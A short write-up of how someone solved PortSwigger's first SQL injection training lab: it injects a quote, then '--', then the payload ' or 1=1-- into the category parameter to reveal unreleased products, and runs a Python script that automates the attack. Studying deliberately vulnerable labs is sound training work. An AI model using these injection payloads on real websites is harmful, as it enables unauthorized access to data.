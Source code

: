 # SQLi-Lab-01
This is [Link-Lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
# Solve Lab-01
display all products both released and unreleased.
<br />

Query --> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `
<br />

1- The first step set `'` after value of parameter category -->  `?category='`
<br />

![step-1](screenshots/2.png)
<br />

1.1- Will appear an error `SELECT * FROM products WHERE category = ''' AND released = 1`.
<br />

![error](screenshots/3.png)
<br />

2- Step two set of after value of parameter category  `?category=' --`
<br />

![step-2](screenshots/4.png)
<br />

2.1- The error disappear `SELECT * FROM products WHERE category = ''--' AND released = 1`.
<br />

!['--](screenshots/5.png)
<br />

5- finally to solve this lab `' or 1=1--`.
<br />

![finally](screenshots/6.png)
<br />

5.1- finally Query `SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1`.

# Automation sove.
using the script python. `python3 https://0aa500220344ec58c0b8081900eb003c.web-security-academy.net "' or 1=1 --"`

<br />

Will appear this `[+] SQLi successful!` when successfully injection.
<br />

OR `[-] SQLi Falied`. when falied injection.